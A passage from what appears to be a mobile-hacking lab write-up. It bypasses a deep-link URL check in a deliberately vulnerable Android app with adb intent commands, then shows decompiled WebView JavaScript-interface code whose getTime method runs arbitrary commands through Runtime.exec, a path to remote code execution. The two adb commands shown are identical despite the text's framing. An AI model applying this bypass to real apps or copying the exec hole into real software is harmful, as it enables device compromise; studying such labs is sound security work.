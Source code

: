 ```bash
adb shell am start -a android.intent.action.VIEW -d  "mhl://mobilehackinglab?url=bernasv.com?test=mobilehackinglab.com"
```

However, we get redirected to the `index.html` instead of your website. Upon revisiting the code, we found that the query parameter part needs to end with `mobilehackinglab.com`. This can be bypassed easily by appending something like `oursite.com?data=mobilehackinglab.com`.

So lets try to open the app again with this: 

```bash
adb shell am start -a android.intent.action.VIEW -d  "mhl://mobilehackinglab?url=bernasv.com?test=mobilehackinglab.com"
```

Now that we've successfully opened our site, what actions can we take next? Upon inspecting the WebView interface, we discover the presence of a `MyJavaScriptInterface` containing functions `loadWebsite` and `getTime`. Upon closer examination of the `getTime` function, we realize that we have control over the command to be executed. Armed with this knowledge, we can serve a malicious HTML file and prompt the application to load it via a deep link, thereby granting us remote code execution.

```java
/WebViewActivity -> MyJavaScriptInterface
public final class MyJavaScriptInterface {
        public MyJavaScriptInterface() {
        }

        @JavascriptInterface
        public final void loadWebsite(String url) {
            Intrinsics.checkNotNullParameter(url, "url");
            WebView webView = WebviewActivity.this.webView;
            if (webView == null) {
                Intrinsics.throwUninitializedPropertyAccessException("webView");
                webView = null;
            }
            webView.loadUrl(url);
        }

        @JavascriptInterface
        public final String getTime(String Time) {
            Intrinsics.checkNotNullParameter(Time, "Time");
            try {
                Process process = Runtime.getRuntime().exec(Time);
                InputStream inputStream = process.getInputStream();
                Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
                InputStreamReader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
                BufferedReader reader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
                String readText = TextStreamsKt.readText(reader);
                reader.close();
                return readText;
            } catch (Exception e) {
                return "Error getting time";
            }
        }
}
```
